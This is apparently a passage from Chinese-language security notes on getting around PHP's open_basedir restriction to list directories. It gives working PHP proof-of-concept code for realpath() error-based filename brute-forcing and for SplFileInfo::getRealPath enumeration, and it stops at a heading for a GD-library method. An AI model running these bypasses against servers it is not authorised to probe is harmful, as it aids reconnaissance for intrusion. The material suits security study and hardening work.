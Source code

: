 ## realpath列目录

realpath是php中一个将相对路径转化为绝对路径的方法，而如果开启了`open_basedir`的话，如果我们传入一个不存在的文件名，会返回false，但是如果我们传入一个不在`open_basedir`里的文件的话，他就会返回`file is not within the allowed path(s)`，所以这个时候就可以类似于报错盲注去爆出文件名了
这里有个小trick，利用windows下的通配符<和>去进行爆破可以快一点

```php
<?php
ini_set('open_basedir',dirname(__FILE__));
printf("open_basedir: %s<br/><br/>", ini_get('open_basedir'));
set_error_handler('isexist');
$dir = 'd:/test/';
$file = '';
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789-*/+_';
for ($i=0; $i<strlen($chars); $i++){
    $file = $dir.$chars[$i].'<<';
    realpath($file);
}
function isexist($errno, $errstr){
    $regex = '/File\((.*)\) is not within/';
    printf("errstr: %s <br/>",$errstr);
    preg_match($regex, $errstr, $mathes);
    if (isset($mathes[1])){
        printf("%s <br/><br/>", $mathes[1]);
    }
}
```



## SplFileInfo::getRealPath列目录

 SplFileInfo类是一个用来为单个文件的信息提供高级的面向对象的接口，这个类可以进行很多文件的方法，其中就有一个方法和之前的`realpath`很相似，就是`getRealPath`，这个方法在获取文件路径的时候，如果存入一个不存在的路径时，会返回false，否则返回绝对路径，而且他还直接忽略了`open_basedir`的设定 

```php
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("open_basedir: %s <br/><br/>", ini_get('open_basedir'));
$basedir = 'd:/test/';
$arr = array();
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789';
for ($i=0; $i < strlen($chars); $i++) {
    $info = new SplFileInfo($basedir . $chars[$i] . '<<');
    $re = $info->getRealPath();
    if ($re) {
        echo $re."<br>";
    }
}
```



## GD库imageftbbox/imagefttext列举目录

